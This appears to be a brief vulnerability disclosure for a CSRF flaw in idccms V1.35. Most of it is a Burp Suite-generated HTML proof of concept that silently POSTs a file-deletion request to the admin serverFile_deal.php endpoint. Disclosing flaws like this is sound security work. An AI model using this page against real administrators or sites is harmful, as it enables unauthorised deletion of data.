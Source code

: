
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/serverFile_deal.php?mudi=upFileDel&dataID=3

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/serverFile_deal.php?mudi=upFileDel&dataID=3" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
